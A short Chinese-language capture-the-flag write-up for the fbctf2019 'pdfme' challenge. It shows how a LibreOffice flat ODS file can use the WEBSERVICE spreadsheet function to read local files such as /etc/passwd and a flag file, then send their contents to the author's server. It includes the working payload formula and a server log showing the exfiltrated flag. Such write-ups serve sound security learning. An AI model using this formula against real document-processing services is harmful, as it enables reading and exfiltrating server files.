 # pdfme

這題其實跟DCTF Final某題非常像

只是當初沒解出來，所以這題還是花了很多時間解XD

找個fods file，然後可以在裡頭用 libreoffice macro 去任意讀檔

讀出來的內容可以用`WEBSERVICE`往外傳



`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;)` => send http request to my server

`=COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;)` => read `/etc/passwd` file

組合起來

`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;&amp;COM.MICROSOFT.WEBSERVICE(&quot;/home/libreoffice_admin/flag&quot;))`

會把帶有 flag 的 Request 送到我們的 server: 

`[01/Jun/2019:22:05:06 +0000] "OPTIONS /xfb%7Bwh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful%7D%0A HTTP/1.1" 200 193 "-" "LibreOffice"`



flag: `fb{wh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful}`

詳細見payload: [flag.fods](https://github.com/w181496/CTF/blob/master/fbctf2019/pdfme/flag.fods)



p.s. 這邊有一個小地方要注意

就是flag不在根目錄下XD

我後來讀`/etc/passwd`，發現有`libreoffice_admin`這個 user

才猜測flag在他的家目錄下面
